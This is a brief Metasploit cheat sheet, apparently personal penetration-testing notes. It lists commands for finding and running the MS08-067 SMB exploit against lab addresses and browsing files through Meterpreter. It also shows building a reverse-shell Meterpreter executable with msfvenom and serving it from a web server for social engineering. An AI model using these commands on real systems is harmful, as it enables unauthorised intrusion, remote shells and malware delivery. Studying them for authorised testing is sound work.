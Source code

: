 # Metasploit

## Search
search does string searches

```bash
search ms08
```

returns searches for all modules with `ms08` in the name

### Get info about a module

```
info exploit/windows/smb/ms08_067_netapi
```

### Exploits

```bash
show exploits
```

## Select a module
Usually following a `search`, you can `select` from the search results by index

```bash
select 6
```

## Show options
```bash
show options
```

## Setting options
`set` an option from the module's options

```bash
set RHOSTS 10.0.1.97
```

## Show payloads
`show payloads` shows all payloads associated with a module

## Run a payload
`run` runs all selected payloads for the given module

## Run an exploit
```bash
exploit
```

## Meterpreter

```bash
ls
```

```bash
cat file.ext
```

```bash
download file.ext
```


## Metasploit CLI

`root@kali:~# msfcli windows/smb/ms08_067_netapi O`

`root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp E`

## MSFVenom
Build custom exploits for social engineering etc. 

To list all the available payloads, enter `msfvenom -l payloads`

`root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -o`

`root@kali:~# msfvenom --help-formats`

To select the output format, use the -f option along with the chosen
format:
`msfvenom windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe`

Redirect the output to an executable file, example.exe:
`root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > example.exe`

`root@kali:~# cp example.exe /var/www`

`root@kali:~# service apache2 start`

